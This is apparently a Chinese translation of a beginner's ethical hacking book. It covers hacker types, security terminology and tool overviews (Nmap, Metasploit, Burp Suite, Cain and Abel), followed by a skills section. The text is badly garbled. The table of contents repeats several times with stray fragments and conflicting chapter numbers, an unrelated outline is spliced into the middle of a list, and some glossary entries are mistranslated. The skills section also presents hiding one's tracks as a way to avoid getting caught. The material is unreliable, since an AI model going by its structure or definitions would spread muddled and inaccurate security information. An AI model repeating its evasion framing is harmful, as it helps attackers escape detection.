# 道德黑客：3合1——初学者指南 + 道德黑客完整技巧与技巧 + 通过高级道德黑客技术与方法学习渗透测试与网络安全


- Web 应用
- 选择时
- IP 地址范围
- DNS 枚举
- 客户端
- 你的邮箱被黑了

确保 PHP 正常工作

政府资助

仅执行一次测试

如何赢得管理层

## 结论

## 参考文献

### 引言

- ToneLOC
- 维持访问
- 查找 IP 地址

### 第二十二章：脚本编写

- 网络扫描
- 如何克服 DDoS
- 快速技巧
- SQL 注入

仅执行一次测试

在错误的时间黑客

## 结论

## 参考文献

### 引言

- 报告
- 计划审批
- IP 地址范围

硬件协议分析仪

ARP 投毒 – 练习

### 第十四章：DNS 投毒

### 第十五章：利用

- 彩虹表
- 第三步
- 第七步

使用 Apache

薪资工作

仅执行一次测试

外包测试

## 结论

## 参考文献

### 引言

- Cain and Abel
- QualysGuard
- LC4
- 虚拟化
- 被动侦察
- 清除轨迹
- 选择时
- IP 地址范围
- 彩虹表
- 无线等
- 快速技巧
- SQL 注入

### 第二十八章：如何使用 SQL 注入

- 第一步
- 第二步
- 第三步
- 第四步
- 第五步
- 第六步
- 第七步
- 第八步
- 第九步
- 第十步
- 第十一步

### 第二十九章：渗透测试

渗透测试的类型

### 第十章：如何编写击键记录器

使用 C 语言

编写代码

### 第三十：如何使用 Perl 脚本

使用 Perl

在 Linux 中重要吗？

创建脚本

### 第十二章：如何使用 PHP

设置 PHP

使用 Apache

确保 PHP 运行

确保 PHP 正常工作

### 第三十章：如何通过道德黑客赚钱

漏洞赏金业务

政府资助

薪资工作

编写安全软件

教授安全与道德黑客

### 第三十四：成为专业黑客的技巧

没有书面许可

发现所有漏洞

仅执行一次测试

假装无所不知

不使用正确的工具

在错误的时间黑客

外包测试

如何赢得管理层

## 结论

## 参考文献

# 道德黑客

学习和理解道德黑客概念的全面初学者指南

### 引言

### 第一章：道德黑客简介

- 黑客会产生道德黑客吗？
- 谁是黑客？
- 什么是道德黑客？
- 为什么要黑进自己的系统？
- 道德黑客守
- 黑客的优点
- 黑客的缺点

### 第二章：黑客的类型

- 白帽攻击
- 黑帽攻击
- 灰帽攻击
- 杂项黑客

### 第三章：道德黑客术语

- 广告软件
- 攻击
- 后门
- 机器人
- 僵尸网络
- 暴力破解攻击
- 缓冲区溢出
- 克隆钓鱼
- 破解者
- DoS 或拒绝服务攻击
- DDoS
- 漏洞利用包
- 漏洞
- 防火墙
- 击键记录
- 逻辑炸弹
- 恶意软件
- 主程序
- 钓鱼攻击
- 电话黑客
- Rootkit
- 缩水封装代码
- 社会工程学
- 垃圾邮件
- 欺骗攻击
- 间谍软件
- SQL 注入威胁
- 木马
- 病毒
- 漏洞
- 蠕虫
- 跨站脚本（XSS）
- 僵尸网络

### 第四章：道德黑客工具

- Nmap
- Metasploit
- Burp Suite
- Angry IP Scanner
- Cain and Abel
- Ettercap
- EtherPeek
- SuperScan
- QualysGuard
- WebInspect
- LC4
- LANGuard 网络安全扫描器
- Network Stumbbler
- ToneLOC

### 第五章：道德黑客技能

- 计算机基础
- 网络技能
- Linux 技能
- Wireshark
- 虚拟化
- 安全概念
- 无线技术
- 脚本编写
- 数据库
- Web 应用

### 第六章：道德黑客流程

- 制定计划
- 选择工具
- 执行计划
- 评估结果
- 继续后续

### 第七章：道德黑客的阶段

- 侦察
- 主动侦察
- 被动侦察
- 扫描
- 获取访问
- 维持访问
- 清除轨迹
- 报告

### 第八章：制定道德黑客计划

- 计划审批
- 确定要黑哪些系统
- 选择时

### 第九章：侦察

- 主动侦察
- 被动侦察

### 第十章：足迹

- 域名信息
- 查找 IP 地址
- 查找托管公司
- IP 地址范围
- 网站历史
- 被动足迹
- 主动足迹工具

### 第十一章：指纹识别

- 主动指纹
- 被动指纹
- 基础步骤
- 端口扫描
- Ping 扫描
- DNS 枚举

### 第十二章：嗅探

可以嗅探什么？

嗅探是如何工作的？

嗅探的类型

受嗅探影响的协议

硬件协议分析仪

合法拦截

嗅探工具

### 第十三章：ARP 投毒

什么是 ARP 欺骗？

什么是 MITM（中间人攻击）？

ARP 投毒 – 练习

第六步

第七步

### 第十四章：DNS 投毒

DNS 投毒

如何避免 DNS 投毒

### 第十五章：利用

漏洞数据库

常见暴露和漏洞

国家漏洞数据库

### 第十六章：枚举

漏洞利用

-linux-enum-user

### 第十七章：Metasploit

使用 Metasploit

- 载荷 (Payloads)

### 第十八章：木马

- 木马信息
- 破解

### 第十九：TCP/IP

- 利用技术
- 客户端

### 第二十章：邮件黑客

- 邮件类型
- 你的邮箱被黑了

### 第二十章：密码破解

- 字典攻击
- 混合攻击
- 彩虹表

### 第二十二章：脚本编写

- Python 脚本
- 创建脚本

### 第二十三章：无线黑客

- Kismet
- 网络扫描
- 无线等

### 第二四章：社会工程学

- 钓鱼
- 正确的方法

### 第二五章：分布式拒绝服务

- DDoS 类型
- 如何克服 DDoS

### 第二十六章：跨站脚本

- XSS 类型
- 快速技巧

### 第二十七章：SQL 注入

- sqlmap
- SQL 注入

### 第二十八章：如何使用 SQL 注入

- 第一步
- 第二步
- 第三步
- 第四步
- 第五步
- 第六步
- 第七步
- 第八步
- 第九步
- 第十步
- 第十一步

### 第二十九章：渗透测试

渗透测试的类型

### 第十章：如何编写击键记录器

使用 C 语言

编写代码

### 第三十：如何使用 Perl 脚本

使用 Perl

在 Linux 中重要吗？

创建脚本

### 第十二章：如何使用 PHP

设置 PHP

使用 Apache

确保 PHP 运行

确保 PHP 正常工作

### 第三十章：如何通过道德黑客赚钱

漏洞赏金业务

政府资助

薪资工作

编写安全软件

教授安全与道德黑客

### 第三十四：成为专业黑客的技巧

没有书面许可

发现所有漏洞

仅执行一次测试

假装无所不知

不使用正确的工具

在错误的时间黑客

外包测试

如何赢得管理层

## 结论

## 参考文献

# 道德黑客

学习和理解道德黑客概念的全面初学者指南

### 引言

### 第一章：道德黑客简介

- 黑客会产生道德黑客吗？
- 谁是黑客？
- 什么是道德黑客？
- 为什么要黑进自己的系统？
- 道德黑客守
- 黑客的优点
- 黑客的缺点

### 第二章：黑客的类型

- 白帽攻击
- 黑帽攻击
- 灰帽攻击
- 杂项黑客

### 第三章：道德黑客术语

- 广告软件
- 攻击
- 后门
- 机器人
- 僵尸网络
- 暴力破解攻击
- 缓冲区溢出
- 克隆钓鱼
- 破解者
- DoS 或拒绝服务攻击
- DDoS
- 漏洞利用包
- 漏洞
- 防火墙
- 击键记录
- 逻辑炸弹
- 恶意软件
- 主程序
- 钓鱼攻击
- 电话黑客
- Rootkit
- 缩水封装代码
- 社会工程学
- 垃圾邮件
- 欺骗攻击
- 间谍软件
- SQL 注入威胁
- 木马
- 病毒
- 漏洞
- 蠕虫
- 跨站脚本（XSS）
- 僵尸网络

### 第四章：道德黑客工具

- Nmap
- Metasploit
- Burp Suite
- Angry IP Scanner
- Cain and Abel
- Ettercap
- EtherPeek
- SuperScan
- QualysGuard
- WebInspect
- LC4
- LANGuard 网络安全扫描器
- Network Stumbbler
- ToneLOC

### 第五章：道德黑客技能


# 道德黑客

学习和理解道德黑客概念的全面初学者指南

## 目录概览

- 计算机基础
- 网络技能
- Linux 技能
- Wireshark
- 虚拟化
- 安全概念
- 无线技术
- 脚本编写
- 数据库
- Web 应用

## 第六章：道德黑客流程

- 制定计划
- 选择工具
- 执行计划
- 评估结果
- 继续后续

## 第七章：道德黑客的阶段

- 侦察
- 主动侦察
- 被动侦察
- 扫描
- 获取访问
- 维持访问
- 清除轨迹
- 报告

## 第八章：制定道德黑客计划

- 计划审批
- 确定要黑哪些系统
- 选择时

## 第九章：侦察

- 主动侦察
- 被动侦察

## 第十章：足迹

- 域名信息
- 查找 IP 地址
- 查找托管公司
- IP 地址范围
- 网站历史
- 被动足迹
- 主动足迹工具

## 第十一章：指纹识别

- 主动指纹
- 被动指纹
- 基础步骤
- 端口扫描
- Ping 扫描
- DNS 枚举

## 第十二章：嗅探

可以嗅探什么？

嗅探是如何工作的？

嗅探的类型

受嗅探影响的协议

硬件协议分析仪

合法拦截

嗅探工具

## 第十三章：ARP 投毒

什么是 ARP 欺骗？

什么是 MITM（中间人攻击）？

ARP 投毒 – 练习

第六步

第七步

## 第十四章：DNS 投毒

DNS 投毒

如何避免 DNS 投毒

## 第十五章：利用

漏洞数据库

常见暴露和漏洞

国家漏洞数据库

## 第十六章：枚举

漏洞利用

- `linux-enum-user`

## 第十七章：Metasploit

使用 Metasploit

- 载荷 `Payloads`

## 第十八章：木马

- 木马信息
- 破解

## 第十九章：TCP/IP

- 利用技术
- 客户端

## 第二十章：邮件黑客

- 邮件类型
- 你的邮箱被黑了

## 第二十一章：密码破解

- 字典攻击
- 混合攻击
- 彩虹表

## 第二十二章：脚本编写

- Python 脚本
- 创建脚本

## 第二十三章：无线黑客

- Kismet
- 网络扫描
- 无线等

## 第二十四章：社会工程学

- 钓鱼
- 正确的方法

## 第二十五章：分布式拒绝服务

- DDoS 类型
- 如何克服 DDoS

## 第二十六章：跨站脚本

- XSS 类型
- 快速技巧

## 第二十七章：SQL 注入

- `sqlmap`
- SQL 注入

## 第二十八章：如何使用 SQL 注入

- 第一步
- 第二步
- 第三步
- 第四步
- 第五步
- 第六步
- 第七步
- 第八步
- 第九步
- 第十步
- 第十一步

## 第二十九章：渗透测试

渗透测试的类型

## 第三十章：如何编写击键记录器

使用 C 语言

编写代码

## 第三十一章：如何使用 Perl 脚本

使用 Perl

在 Linux 中重要吗？

创建脚本

## 第三十二章：如何使用 PHP

设置 PHP

使用 Apache

确保 PHP 运行

确保 PHP 正常工作

## 第三十三章：如何通过道德黑客赚钱

漏洞赏金业务

政府资助

薪资工作

编写安全软件

教授安全与道德黑客

## 第三十四章：成为专业黑客的技巧

没有书面许可

发现所有漏洞

仅执行一次测试

假装无所不知

不使用正确的工具

在错误的时间黑客

外包测试

如何赢得管理层

## 结论

## 参考文献

# 道德黑客

学习与理解道德黑客概念初学者全面指南

JOE GRANT

### 引言

感谢购买《道德黑客——学习与理解道德黑客概念初学者全面指南》。

如果你正试图入侵他人的系统以非法获取信息，请立即停止阅读。如果你想学习更多关于如何测试系统或网络漏洞以及修复这些漏洞的知识，请继续阅读。本书提供了道德黑客可以使用的不同技术信息，以识别系统或网络中的任何漏洞并找到修复这些漏洞的方法。大多数组织进行此类练习是为了防止针对其网络和基础设施的恶意攻击。本书仅讨论道德黑客，这是一种测试系统漏洞的合法方法。你必须理解计算机和网络安全在不断演进。因此，你必须确保你的计算机和网络始终不受犯罪黑客或破解者的侵害。

本书列出了你可以用于测试系统或网络任何漏洞的不同工具和技术。一旦你识别了漏洞，就可以致力于提高网络安全性。如果你不知道黑客是如何思考的，可能无法很好地测试系统。如果是这样，你应该花些时间理解黑客的思维，并在评估系统时运用这些知识。

道德黑客也称为渗透测试或白帽攻击，许多组织用它来确保其网络和系统的安全。本书将提供你在进行道德黑客时可以使用的不同软件和工具信息。书中还有一些示例练习和程序，你可以用它们开始道德黑客流程。

我希望你能从书中获得你所需的所有信息。再次强调，请勿将其中的内容用于任何非法目的。

## 第一章

### 道德黑客简介

本书完全专注于道德黑客。它将详细介绍你如何使用不同技术来测试你的系统或网络的任何漏洞，并在破解者利用它们之前修复这些漏洞。大多数人误解了“道德”一词，往往并不理解它的含义。韦氏-韦伯斯特词典给出的定义符合本书的。一旦系统所有者许可其进行攻击，道德黑客就可以执行书中提到的各种测试。

### 为什么黑客的存在会催生道德黑客？

每个人都听过黑客，甚至许多人因为黑客的行为遭受了损失。那么，谁是黑客？为什么人们学习更多关于黑客的行为很重要？书中的接几节将帮助你理解攻击过程以及行业内不同类型的黑客。

## 谁是黑客？

“黑客”一词有两种定义。黑客是指研究软件和电子系统以理解其工作原理的人。他们还寻找改进网络和电子系统功能的方法。他们热爱发现让系统运行的新方法的挑战。在最近，“黑客”一词具有了新的含义。黑客是指那些为了恶意目的进入系统或网络的人。这些黑客被称为破解者或犯罪黑客。破解者只会进入系统或网络来窃取、删除或修改机密信息，这可能导致组织或个人的巨大损失。

本书将使用“黑客”和“道德黑客”术语。

建议你不要让黑客行为做得过头。例如，如果你办公室里工作的人不多，且没有内部 Web 服务器，那么你不需要太担心通过 Web 进行攻击。然而，你永远不应该忘记任何可能威胁你公司安全的恶意员工。

总而言之，你作为道德黑客的目标应该如下：

- 使用非破坏性方法对系统进行黑客攻击。
- 识别漏洞并利用这些漏洞证明系统需要改进。

## 补充章节

### 第五章：扫描

网络流量

防火墙与端口

扫描工具

### 第六章：利用

漏洞扫描

攻击向量与攻击类型

本地利用

远程利用

进程内部操作

利用 Web 服务器和 Web 应用

OWASP

测试 Web 应用

### 第七章：维持访问

- 后门
- 持久性后门
- 可检测性
- 键盘记录器

### 第八章：报告

- 渗透测试报告
- 演示
- 报告与证据的存储

### 第九章：邮件攻击

- 电子邮件协议
- 电子邮件安全
- 邮件伪造
- 网络钓鱼

保护你的电子邮件账户

## 结论

## 参考文献


- 实施结果并移除任何漏洞以提高安全性。

## 道德黑客戒律

道德黑客必须遵守几条戒律。如果黑客不遵守这些戒律，将会产生负面后果。在道德黑客不遵守这些戒律的情况下，结果将是有害的。

## 道德工作

在这种语境下，“道德”一词指的是以高尚的道德和原则工作。无论是对自己的系统进行道德黑客测试，还是为你雇佣的人测试系统，你必须确保你所采取的步骤支持个人或组织的目标。换句话说，你不能有隐藏的。你必须确保自己诚实，并且绝不滥用在系统上发现的任何信息；这正是破解者（`crackers`）所做的。

## 尊重隐私

你必须始终尊重你收集的信息。在测试期间获得访问的所有数据都应该保持保密，从明文密码到 Web应用程序日志文件。你绝不能利用这些信息来窥探机密或人们的私生活。如果你感觉到存在问题，应该将该信息与相关人员分享。此外，你应该养成让其他人参与过程的习惯，以确保系统所有者能够信任你。

## 不导致系统崩溃

许多人的系统之所以崩溃，是因为他们在开始测试时脑中没有计划。这些测试者要么误解了文档，要么根本没有读过文档。结果就是他们不知道如何使用不同的工具来测试系统的安全性。如果你在系统上运行过多的测试，可能会导致 `DoS` 状态并引起系统死机。你不应该急于行动，或假设某个特定的主机或网络能够承受漏洞评估和网络扫描工具带来的冲击。

许多安全评估工具同时控制在系统上执行测试的方式。如果你需要在工作时间期间对系统运行测试，这些工具非常有用。你可以通过强制某人更改密码来创建系统锁定状态或锁定账户。这些人将不会意识到他们已经同意锁定自己的系统。

## 黑客攻击的优势

在以下情况下，黑客攻击是一个很有用的过程：

- 执行渗透测试以识别网络和计算机安全中的任何漏洞
- 恢复任何丢失的信息，主要是在丢失密码的情况下
- 识别可以实施的保护或预防措施，以防止任何安全泄露
- 防止恶意黑客的未经授权访问

## 黑客攻击的劣势

如果带有恶意意图进行黑客攻击，可能会导致以下问题：

- 隐私侵犯
- 对系统上私人信息的未经授权访问
- 拒绝服务攻击
- 大规模安全漏洞泄露
- 对系统的恶意攻击，导致重要信息丢失
- 阻碍系统运行

# 第2章

## 黑客类型

黑客可以分为以下几类之一：黑帽、灰帽或白帽。每个黑客都根据其意图进行分类。这些术语借自旧西部，当时好牛仔蛋会戴白色帽子，而坏牛仔蛋会戴黑帽子。

### 白帽黑客

白帽黑客也被称为道德黑客，他们不想破坏系统。他的动机是通过不同的漏洞评估和渗透测试来识别任何网络系统或计算机的弱点。道德黑客攻击是合法的，事实上，许多公司雇佣道德黑客来发现漏洞。

### 黑帽黑客

黑帽黑客也被称为破解者（`cracker`），是指那些想要攻击网络或系统以获得未经授权访问的人。这种黑客希望破坏系统或盗取某些敏感信息。黑帽攻击是非法的，因为攻击系统的人是坏意为之此的。这包括侵犯隐私、阻塞网络上的任何通信、盗取公司数据、破坏系统等。

### 灰帽黑客

灰帽黑客是白帽和黑帽的混合。这些黑客没有恶意意图，但是为了好玩而攻击网络或系统。他们希望在未实际获得所有者许可的情况下利用系统漏洞。通常，他们的目标是通知所有者任何弱点，并获得他们的感激和/或一笔钱。

### 其他黑客

除了上述列出的黑客列表外，还有几类应该被提到的黑客类型。这些包括脚本小子（`script kiddies`）、中级黑客、精英黑客、行动黑客（`hacktivists`）、网络恐怖分子以及涉及组织犯罪的黑客。

### 脚本小子 (Script Kiddies)

这些黑客是计算机新手，他们使用互联网上提供的各种工具和文档来执行攻击。他们并不知道背后发生了什么，只理解足够造成最小伤害的程度。他们通常很粗心，所以到处都留下数字指纹。这些就是你在新闻中听到的那些黑客。他们攻击系统只需要极少的技能，因为他们使用的是已经现成的工具。

### 中级黑客 (Intermediate Hackers)

这些黑客了解的水平足以引起一些严重的问题。他们拥有网络和计算机的知识，并利用这些知识执行众知的漏洞利用。一些中级黑客想成为该过程的专家；如果他们付出努力，完全可以成为精英黑客。

### 精英黑客 (Elite Hackers)

精英黑客是专家。他们是开发多种黑客工具和程序的人。脚本小子使用这些工具和程序执行自己的攻击。精英黑客编写代码来开发像蠕虫和病毒。他们知道如何进入系统并掩盖踪迹，或者伪装成是他人负责。

精英黑客非常神秘，只有在他们认为下属合格时才会分享信息。为了让低级黑客被评估为合格，他们应该拥有精英黑客可以用来攻击知名系统的特殊信息。精英黑客是最糟糕的一类黑客。然而，与脚本小子的数量相比，世界上他们并不多。

### 行动黑客 (Hacktivists)

这些黑客通过他们的攻击传播社会或政治信息。行动黑客总是能找到方法来提高对给定问题的关注。行动黑客的一些例子包括许多带有“释放 Kevin”消息的网站。这些行动黑客希望政府从监狱释放尼尼克。其他案例还包括反对2001年与中国战斗机碰撞的美国海军侦机机、多年对白宫网站的攻击、巴基斯坦和印度之间的黑客攻击以及支持大麻合法化的信息。

### 网络恐怖分子 (Cyberterrorists)

网络恐怖分子攻击政府计算机或其他公共基础设施，如空中交通塔和电网。他们窃取机密信息或崩溃某些关键系统。各国已开始认真对待网络恐怖主义威胁，确保电力公司和其他类似行业始终设有信息安全措施。这些措施将保护系统免受此类攻击。

### 组织犯罪 (Organized Crime)

一些黑客小组被雇佣执行组织犯罪。2003年，韩国警方破了一个互联网上最大的黑客团之一。该团有近4400名成员。除了该小组外，菲律宾警方破了一个价值数百万的黑客团，该团通过被黑客入侵的线路销售廉价电话获利。这类黑客总是以高额资金被雇佣。

# 第3章

## 道德黑客术语

本章简要详细介绍了黑客领域中常用且重要的术语。

### 恶意 (Adverse)

黑客使用这种软件在系统上强制显示广告。

### 攻击 (Attack)

黑客执行此操作以访问系统并从系统中提取某些敏感数据。

### 后门 (Back Door)

后门，也称为陷门，是进入软件或计算机的入口端口。该端口不需要任何登录信息或密码，因此，它可以绕过所有的安全措施。

### 机器人 (Bot)

机器人是一种用于自动化任何操作的程序，从而增加其执行次数。这意味着与人工操作员相比，机器人执行功能的时间更长。例如，黑客使用机器人调用脚本，该脚本可以以更高的速率创建对象或发送 `FTP`、`Telnet` 或 `HTTP` 文件。

### 僵尸网络 (Botnet)

僵尸网络也被称为僵尸军，是一组可以在所有者不知情的情况下被控制的计算机。这些计算机被用于执行拒绝服务攻击或发送垃圾邮件。

### 暴力破解攻击 (Brute Force Attack)

暴力破解攻击可能是黑客获取系统或应用程序访问权限时能执行的最简单的攻击。这种攻击是一种自动化攻击，这意味着它将反复尝试不同的用户名和密码，直到能够访问该系统或应用程序。

### 缓冲区溢出 (Buffer Overflow)

缓冲区溢出当大量数据被写入单个内存块时可以观察到的缺陷。这意味着内存已无法持有这些数据。

### 克隆钓鱼 (Clone Phishing)

克隆钓鱼是一种合法且现有的邮件类型，其中包含虚假链接。该链接会欺骗接收者提供某些个人信息，黑客可以利用这些信息来解除系统或网络的防御。

### 破解者 (Cracker)

破解者是一种黑客，他们修改任何软件以访问系统的某些功能，例如复制保护功能。

### DoS 或拒绝服务攻击 (DoS or Denial-of-Service Attack)

拒绝服务攻击（或 `DoS` 攻击）被黑客确保用户无法使用网络资源或服务器。这是通过暂停该服务器或资源的的服务来实现的。

### DDoS (分布式拒绝服务攻击)

`DDoS` 代表分布式拒绝服务攻击。

### 漏洞工具包 (Exploit Kit)

漏洞工具包是黑客设计运行在某些 Web 服务器上的系统。该系统用于识别与 Web 服务器通信的客户端机器中的任何漏洞。然后它会利用这些漏洞，并在系统中执行某些恶意代码。

### 漏洞利用 (Exploit)

漏洞利用是代码的一部分、一段数据或或软件，它会利用系统和网络中的漏洞或错误，从而损害该系统或网络的安全性。

### 防火墙 (Firewall)

防火墙是放置在网络上的过滤器。这种过滤器有助于防止不受欢迎的入侵者进入系统或网络。此外，它还能确保防火墙内部用户与系统之间的通信是安全的。

### 键盘记录 (Keystroke Logging)

键盘记录是黑客跟踪键盘上按键按下情况的过程。这一过程将帮助黑客制定出人类接口的蓝图。它通常被黑帽和灰帽黑客用于记录某些密码。键盘记录程序通常通过钓鱼邮件或木马投送至系统中。

### 逻辑炸弹 (Logic Bomb)

逻辑炸弹是一种添加到系统的病毒，当满足某些条件时将触发恶意攻击。逻辑炸弹病毒的一个常见例子是定时弹。

### 恶意软件 (Malware)

恶意软件是一个描述各种侵入性和敌性软件的术语，包括木马、间谍软件、恐吓软件、广告软件、病毒、勒索软件、虫以及任何其他恶意程序。

### 主程序 (Master Program)


主程序是黑帽黑客用于向僵尸机器人（本章稍后解释）传输命令的程序。这些机器人携带垃圾攻击或拒绝服务攻击。

### 钓鱼 (Phishing)

钓鱼是一种欺骗方法，黑客向目标发送邮件。黑客将利用这封邮件从用户处收集某些个人或财务信息。

## 电话骗者 (Phreaker)

电骗者是指普通的计算机黑客。这些黑客经常入侵电话网络，要么监听线路要么拨打长途电话。

## 根基包 (Rootkit)

Rootkit 是一种恶意的软件。黑客设计这种软件以从任何正常检测方法隐藏某些进程或程序。这将确保 Rootkit 存储在系统中并拥有系统的特权访问权限。

## 缩膜代码 (Shrink Wrap Code)

缩膜代码攻击是一种利用配置不当或未打补丁软件漏洞的方法。

### 社会工程学 (Social Engineering)

黑客利用社会工程学欺骗他人。黑客使用这种技术获取有关用户的某些个人信息，如信用卡详细信息或密码。

### 垃圾邮件 (Spam)

垃圾邮件是未经请求的邮件。这也被称为垃圾邮件，通常在未经许可的情况下发送给大群人员。

### 伪装 (Spoofing)

伪装是黑客用于获取系统或网络访问的技术。黑客将使用 IP 地址向计算机发送消息，该地址将向系统指示消息来自信任的主机。

### 间谍软件 (Spyware)

间谍软件是一种用于在对方不知情的情况下收集组织或个人信息的软件。这种软件可用于在未经客户同意的情况下向任何实体发送敏感信息。它还可以被用于控制系统。

### SQL 注入 (SQL Injection)

SQL 注入是一种用 SQL 编写的代码注入技术。该工具用于攻击任何数据驱动的应用程序。它包括输入字段中的某些恶意语句。

### 威胁 (Threat)

威胁是对系统或网络可能的危险。这些威胁可以被用来利用漏洞并损害系统网络的安全性。

### 木马 (Trojan)

木马（或 Trojan）是一种看起来像正常的程序。区分木马和普通程序是非常的。这种工具可以用于更改信息和窃取敏感信息。

### 病毒 (Virus)

病毒是一种恶意的代码或完整程序。它会在系统中复制自己并产生负面影响。病毒可以破坏数据。

### 漏洞 (Vulnerability)

漏洞是系统或网络中的缺陷，黑客可以利用它来损害安全性。

### 蠕虫 (Worms)

蠕虫与病毒之处在于它们可以在系统中自我复制。它驻留在内存中但不对文件进行任何更改并自我复制。

### 跨站脚本 (Cross-Site Scripting)

跨站脚本（或 XSS）是一种位于 Web 应用程序中的安全漏洞。这种漏洞让黑客能够在用户查看的网页中注入脚本。

### 僵尸机器人 (Zombie Drone)

僵尸机器人被黑客当作士兵执行恶意活动。这种机器人是被某些黑客用于分发垃圾邮件的被劫计算机。

## 第4章

## 道德黑客工具

现在你已经知道了什么是道德黑客，让我们来看看某些可用的工具，以防止未经授权访问网络系统或计算机。

### Nmap

Nmap（或网络映射器）是一种用于安全审计和网络发现的工具。它是一个开源工具，设计用于扫描大型网络。它在处理单个主机时效果良好。网络管理员使用它执行不同的任务，包括管理服务升级计划、网络清单以及监控主机运行时间。

Nmap 可以使用原始 IP 包确定以下内容：

- 网络中的哪些不同主机
- 主机运行的操作系统
- 主机提供的不同服务
- 主机使用的防火墙以及任何其他特征

### Metasploit

Metasploit 是另一种强大的利用工具，它是 Rapid7 的产品。许多使用的资源可以在源网站找到：`www.metasploit.com`。该工具有商业版和免费版，可以配合 Web 界面或命令行提示符使用。

你可以使用 Metasploit 执行以下操作：

- 对小规模网络进行渗透测试
- 检查某些系统的漏洞
- 发现任何导入或网络扫描数据
- 在主机上运行单独测试，或查看人们可以利用的不同模块

### Burp Suite

Burp Suite 是一种被恶意黑客和道德黑客用于对任何 Web 应用程序进行安全测试的工具。该套件包含多个协同工作的工具，支持从映射到应用程序攻击面分析的整个过程。它通常用于利用或定位应用程序中的任何漏洞。该套件易于使用，允许管理员完全控制并结合不同技术来改进测试。Burp 可以轻松配置，并具有许多可以帮助经验测试人员完成工作的特性。

### Angry IP Scanner

Angry IP scanner 是一款跨平台且轻级的端口和 IP 地址扫描器。该工具可以扫描任何范围内的 IP 地址，并可以在任何地方使用或复制。它利用多线程方法来提高扫描速度。在这种方法中，每个地址都采用一个独立的扫描线程。Angry IP scanner 通过 ping 地址来检查 IP 地址是否活动，并确定 MAC 地址、扫描端口以及解析主机。使用此工具收集的数据可以保存为 XML、TXT、IP-端口列表或 CSV 文件。你可以使用此工具收集有关任何 IP 的信息。

### Cain and Abel

Cain and Abel 是在微软操作系统中用于密码恢复的工具。该工具帮助通过以下方法之一检索密码：

- 录制 VoIP 会话
- 嗅探网络
- 解码乱序的密码
- 使用暴力破解、密码分析和字典攻击破解加密密码
- 揭露密码框
- 恢复无线网络密钥
- 恢复缓存密码
- 分析路由协议

这是大多数专业渗透测试人员和安全顾问用于道德黑客的工具。

### Ettercap

Ettercap（或称以太网捕获）是一种用于中间人攻击的网络安全工具。该工具可以嗅探实时连接、即时过滤任何内容并执行其他有趣的活动。Ettercap 具有许多可用于主机和网络分析的功能，并支持协议解剖（包括主动和被动）。它运行在许多操作系统上，包括 Mac OS X、Linux 和 Windows。

### EtherPeek

EtherPeek 是一种帮助简化异构网络环境中执行的网络分析的工具。这是一个非常小的工具，可以在几分钟内安装在任何系统上。人们可以使用此工具嗅探任何网络上的流量包，并支持不同的协议，包括 IP、AppleTalk、UDP、NBT 包、IP 地址解析协议 (ARP)、NetBEUI、TCP 和 NetWare。

### SuperScan

SuperScan 是一种强大的工具，可解析主机并扫描任何 TCP 端口。它具有用户友界面，可以执行以下功能：

- 使用不同的 IP 范围进行端口或 ping 扫描
- 使用内置或随机范围扫描网络中的不同端口
- 解密连接到网络的不同主机的响应
- 使用内置编辑器修改端口描述和列表
- 合并不同列表以构建新列表
- 连接不同的端口
- 为端口分配助手应用程序

## QualysGuard

QualysGuard 是一套工具，用于降低合规性成本并简化任何安全操作。该工具可以实现 Web 应用程序和 IT 系统的整个合规、审计和保护自动化。QualysGuard 可以提供一些关键的安全情报，并包含多种用于检测、监控和保护网络的工具。

### WebInspect

WebInspect 是一种用于评估应用程序安全性的工具。它有助于识别任何工具在应用程序层存在的未知和已知漏洞。它还可以用于检查服务器配置是否正确，并帮助使用跨站脚本、参数注入、目录遍历等攻击来测试系统的漏洞性。

## LC4

LC4（以前称为 L0phtCrack）是一种密码恢复和审计应用程序。该工具用于测试密码强度，有时通过混合攻击、暴力破解和字典攻击在 Microsoft Windows 上恢复密码。LC4 用于取回丢失的 Windows 密码，这将有助于简化迁移过程。

## LANGuard Network Security

LANGuard 网络安全工具扫描网络以识别连接到该网络的设备。它还提供有关操作系统的一些信息。使用 LANGuard 网络安全工具，可以获取连接到网络的每个节点的信息。

## Network Stumbler

Network Stumbler 是一种运行在操作系统上的 WiFi 监控器和扫描器。该工具允许网络专业人员检测任何无线网络。大多数黑客利用此工具验证网络配置是否良好，并检测信号强度。

## ToneLOC

ToneLOC（或称频率定位器）是 90 年代为 MS-DOS 编写的程序。它曾被用于战争拨号（war dialing）程序。通过战争拨号，人们可以扫描号码并拨打所有具有相同区号的号码。恶意黑客使用此工具通过识别调制解调器来破坏安全。道德黑客可以使用它来检测计算机网络上的任何未经授权的设备。

# Linux 技能

黑客经常使用 Linux 作为他们的操作系统。事实上，大多数为黑客开发的工具都仅为 Linux 操作系统设计。与 Windows 不同，Linux 可以帮助黑客实现他们的最终目标。因此，学习 Linux 始终是一个好主意。任何专业的黑客都应该精通如何使用 Linux 来攻入系统并识别其漏洞。

### Wireshark

Wireshark 是一款开源的数据包分析工具。黑客对其用它来排查任何网络问题、分析软件和通信协议，并为系统开发某些协议。

专家级黑客精通利用这种分析器为他们正在入侵的系统轻松地创建协议。

## 虚拟化


虚拟化是制作任何内容的虚拟版本（如服务器、存储设备、操作系统或网络资源）的艺术。这有助于黑客在攻击正式实施之前对即将发生的攻击进行测试。这还能帮助黑客检查自己是否犯了错误并修正攻击方案。

专业黑客使用这项技能来增强他们即将执行的攻击效果。这让他们在保护自己的同时，对他们对软件可能造成的破坏有一个视角。业余黑客通常不学习如何隐藏自己的足迹。一个完美的例子是那个发布《权力的游戏》第7季剧集的孟买男孩。如果他能更好地隐藏足迹，他本可以保护自己。这就是为什么学习所有虚拟化知识非常重要。

## 安全概念

黑客学习不同的安全概念以及技术的变革至关重要。对安全有深入了解的人将能够控制安全管理员为他们正在入侵的系统设置的各种屏障。

学习如安全套接层 `SSL`、`公钥基础设施` `PKI`、防火墙、入侵检测系统 `IDS` 以及其他技能对黑客来说是非常重要的。如果你是一个业余爱好者，建议你参加像 `Security+` 这样的课程。

## 无线技术

这是一个每个人都熟悉的技术——使用不可见的波作为媒介发送信息。如果你正尝试入侵无线设备，你必须必须理解该设备的功能。因此，学习以下加密算法至关重要：`WPA2`、`WPA`、`WEP`、`WPS` 和四次握手。理解无线技术周围的协议连接、认证和限制也是相关的。

## 脚本编写

这是每个黑客必须具备的技能，特别是专业人士。如果黑客使用另一个黑客编写的脚本，他或她会因此名誉受损。安全管理员对任何入侵尝试始终保持警惕，并识别新工具，以帮助他们应对此类攻击。

